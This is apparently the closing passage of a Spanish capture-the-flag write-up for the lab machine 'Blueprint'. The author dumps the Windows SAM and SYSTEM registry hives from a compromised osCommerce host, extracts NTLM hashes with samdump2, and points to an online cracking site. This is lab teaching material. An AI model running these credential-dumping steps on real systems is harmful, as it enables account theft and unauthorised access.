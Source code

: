 Alternariva para copiar los ficheros Sam y System 

    C:\xampp\htdocs\oscommerce-2.3.4\catalog\install\includes>reg save HKLM\SAM samsave
    reg save HKLM\SAM samsave
    The operation completed successfully.
    
    C:\xampp\htdocs\oscommerce-2.3.4\catalog\install\includes>reg save HKLM\SYSTEM systemsave
    reg save HKLM\SYSTEM systemsave
    The operation completed successfully.
    
![image](https://github.com/Esevka/CTF/assets/139042999/8f33e75d-aaec-40b8-ba69-f25825fde408)


    ┌──(root㉿kali)-[/home/…/Desktop/ctf/blueprint/content]
    └─# samdump2 -h                     
    samdump2 3.0.0 by Objectif Securite (http://www.objectif-securite.ch)
    original author: ncuomo@studenti.unina.it
    
    Usage: samdump2 [OPTION]... SYSTEM_FILE SAM_FILE
    Retrieves syskey and extract hashes from Windows 2k/NT/XP/Vista SAM
    
      -d            enable debugging
      -h            display this information
      -o file       write output to file
                                                                                                                                                    
    ┌──(root㉿kali)-[/home/…/Desktop/ctf/blueprint/content]
    └─# samdump2 -o hash SYSTEM SAM 
                                                                                                                                                    
    ┌──(root㉿kali)-[/home/…/Desktop/ctf/blueprint/content]
    └─# cat hash   
    Administrator:500:aad3b435b51404eeaad3b435b51404ee:hashtocrack:::
    Guest:501:aad3b435b51404eeaad3b435b51404ee:hashtocrack:::
    Lab:1000:aad3b435b51404eeaad3b435b51404ee:hashtocrack:::

Para crakear el hash del usuario Lab de una manera rapida podemos utilizar esta web https://crackstation.net/ 

---


---> Maquina  Blueprint completa <---
    


    

    
    

    


  


  
